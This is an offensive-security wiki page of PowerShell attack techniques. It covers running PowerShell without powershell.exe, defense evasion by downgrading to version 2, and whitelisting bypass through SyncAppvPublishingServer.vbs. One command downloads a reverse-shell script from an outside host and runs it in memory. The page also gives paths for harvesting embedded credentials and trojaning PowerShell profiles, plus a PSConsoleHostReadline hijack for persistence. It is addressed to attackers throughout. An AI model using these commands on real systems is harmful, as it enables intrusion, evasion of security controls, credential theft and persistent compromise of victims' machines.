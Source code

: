 # 🔧 Powershell Tricks

## <mark style="color:red;">Powershell</mark>

Powershell is a console replacement for windows cmd.exe that takes advantage of the .Net framework and COM objects and has a lot of bash-like features built into it.

Powershell has many interfaces such as the shell interface, script development GUI interface (ISE) and most importantly `System.Management.Automation.dll` which is the main DLL for loading powershell sessions.

#### powershell version 2.0 is common in windows 7 and server 2008 and downgrading from powershell 3 or 5 (latest version) to this one is great way of defense evasion.

## <mark style="color:red;">AMSI Bypass</mark>

#### Check [this section](amsi-bypass.md).

## <mark style="color:red;">Powershell without powershell.exe</mark>

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

```
rundll32.exe PowerShdll.dll,main
```

### <mark style="color:orange;">SyncAppvPublishingServer</mark>

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

example:

#### <mark style="color:green;">getting a reverse shell with SyncAppvPublishingServer and powershell.</mark>

generate a powershell payload and serve it on the network, use this command to call powershell from vba and load the payload in memory.

```
SyncAppvPublishingServer.vbs "Break; iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/rev.ps1')"
```

{% hint style="info" %}
#### This technique can easily bypass application whitelisting.
{% endhint %}



{% embed url="https://youtu.be/7tvfb9poTKg" %}

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://github.com/mirsys/PSAttack" %}

### <mark style="color:orange;">BYOPS</mark>

#### Bring your own powershell, any application that can use the .Net DLL to execute powershell commands.

{% embed url="https://github.com/leechristensen/UnmanagedPowerShell" %}

{% embed url="https://github.com/bitsadmin/nopowershell" %}

## <mark style="color:red;">Powershell Command Order</mark>

#### when a powershell command is executed, windows will look for the command in this order:

* Doskeys Alias (pre-windows 10 PSConsoleHostReadline)
* Alias
* Function
* Cmdlet
  * overloaded cmdlet checks object type
* Executable
  * tries each $PATHEXT for each directory in $PATH

## <mark style="color:red;">Attacking Resources</mark>

Pilfer embedded credentials in scripts:

```
C:\scripts
$HOME\Documents\WindowsPowerShell
C:\users\username\Documents\WindowsPowerShell\
$PSHOME\
c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe
```

## <mark style="color:red;">Powershell Autoruns</mark>

The PowerShell console and ISE have different defaults for a profile. The profile is loaded every time PowerShell starts. This can be specific to the Host, User, Console, ISE, or a combination thereof. The filename of the current profile is always stored at $PROFILE. Any statements, including legacy commands or cmdlets in this file, will be executed upon start of PowerShell. You may want to adjust your profile to load certain modules or preset some environment variables.&#x20;

#### Because these files are automatically loaded when starting PowerShell, they are great locations to drop trojan payloads!

Profile running locations and context:

| Description          | Tool    | Path                                                                    |
| -------------------- | ------- | ----------------------------------------------------------------------- |
| Current User +Host   | Console | $Home\Documents\WindowsPowerShell\Profile.ps1                           |
| Current User         | Console | $Home\Documents\Profile.ps1                                             |
| Current Host         | Console | $PsHome\Microsoft.PowerShell\_profile.ps1                               |
| All Users, All Hosts | Console | $PsHome\Profile.ps1                                                     |
| Current User + Host  | ISE     | $Home\Documents\WindowsPowerShell\Microsoft.Power ShellISE\_profile.ps1 |
| Current Host         | ISE     | $PsHome\Microsoft.PowerShellISE\_profile.ps1                            |

## <mark style="color:red;">Trojan powershell v3 PSConsoleHostReadline</mark>

In PowerShell 3.0, the system PATH is used to enumerate executables, specifically looking for a nonexistent file: PSConsoleHostReadline. Because the file doesn't exist, PowerShell attempts to load PSConsoleHostReadline with a long list of possible executable extensions: .ps1, .psm1, .psd1, .com, .exe, .bat, .cmd, .vbs, and so on. As an attacker, all you need is to drop one PowerShell script somewhere in the PATH of a PowerShell v3 system and wait for any PowerShell interactive session.

```
$PSHOME\PSConsoleHostReadline.bat

C:\Windows\System32\WindowsPowerShell\v3.0\PSConsoleHostReadline.bat
```

{% hint style="info" %}
This particular missing file "feature" was removed in PowerShell v4, but because PowerShell v3 shipped with Windows 8 and Server 2012, the technique is still valid.
{% endhint %}

The attacker needs to write to the correct filename and then wait for the victim to run PowerShell interactively to run the dropped payload. Just note that whatever payload you drop will run with each line used in an interactive session on the victim.
